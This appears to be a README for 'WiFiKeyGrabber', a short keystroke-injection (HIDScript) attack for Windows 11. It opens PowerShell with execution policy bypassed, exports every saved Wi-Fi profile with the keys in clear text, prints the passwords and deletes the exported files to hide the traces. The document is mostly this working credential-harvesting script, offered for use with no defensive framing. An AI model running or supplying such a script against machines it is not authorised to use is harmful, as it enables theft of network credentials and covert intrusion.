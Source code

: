 ## Credentials - WiFiKeyGrabber

### Description

WiFiKeyGrabber is a simple HIDScript that show in powershell output the saved Wi-Fi Passwords.

### Requirement

1. First note this script has been created and tested under Windows 11 Build 22000.
2. I used a QWERTZ keyboard to do this ("ch" layout), so you may need to change that.

```bash
layout("ch")
press("GUI r")
delay(200)
type("powershell.exe -nop -exec bypass")
press("ENTER")
delay(1000)
type("netsh wlan export profile key=clear")
press("ENTER")
type("Select-String -Path Wi-Fi*.xml -Pattern 'keyMaterial' | Select Filename, LineNumber, Line, Path | Format-Table")
press("ENTER")
type("del Wi-Fi*.xml")
press("ENTER")
```bash